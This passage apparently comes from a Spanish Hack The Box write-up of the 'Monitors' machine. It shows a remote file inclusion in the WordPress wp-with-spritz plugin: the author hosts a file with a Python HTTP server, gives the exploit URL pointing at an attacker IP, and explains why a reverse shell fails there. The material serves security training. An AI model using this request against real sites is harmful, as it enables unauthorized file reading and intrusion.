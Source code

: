 Para verificar si esto funciona, podemos crear un archivo de texto cualquiera y, mediante _Python_, podemos hostear un servidor _HTTP_ desde la misma ruta del archivo para que sea accesible mediante:

```
python3 -m http.server 80
```

Ahora, si apuntamos a la ruta URL que aparece a continuación, veremos que podemos leer el contenido que habíamos escrito en nuestro archivo de texto.

```
http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=http://<nuestraIP>:80/<nombreArchivo>
```

![18](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2024-10-21-Monitors-Hack-The-Box/18.png){:class="blog-image" onclick="expandImage(this)"}

Sin embargo, si intentamos cargar una _reverse shell_, esta no se ejecutará debido a que el `RFI` utiliza la función `file_get_contents`, que simplemente lee el contenido del archivo como texto, sin interpretar o ejecutar ningún código _PHP_ que contenga.

![19](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2024-10-21-Monitors-Hack-The-Box/19.png){:class="blog-image" onclick="expandImage(this)"}
